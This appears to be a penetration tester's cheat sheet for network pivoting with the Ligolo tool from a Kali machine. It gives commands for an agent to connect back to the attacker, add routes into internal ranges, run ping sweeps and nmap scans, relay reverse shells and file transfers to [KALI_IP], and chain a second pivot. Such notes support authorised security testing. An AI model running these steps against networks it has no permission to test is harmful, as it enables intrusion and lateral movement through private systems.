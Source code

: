 # Port Forwarding
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
    *   Ligolo   → `session` → Select Number → `start`
*   Local Forwarding
    *   Route    → `240.0.0.1/32`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivot's local ports)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Generic    → `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
        *   Linux        → `ip route`
        *   Windows → `route PRINT` → Check Router + Mask
    *   Ping Sweep / Service Scanning
        *   `fping -asgq        [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / File Transfers
        *   Kali                             → `listener_add --addr 0.0.0.0:30000 --to [KALI_IP]:[KALI_PORT] --tcp` 
        *   Intranet Machine   → Request/Send Shell To → `[FIRST_PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Ligolo                 → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to [KALI_IP]:11601 --tcp`
        *   Second Pivot   → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                     → `ligcreate() ligolo2` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo2`
        *   Ligolo                → `session` → Select Number → `start --tun ligolo2`
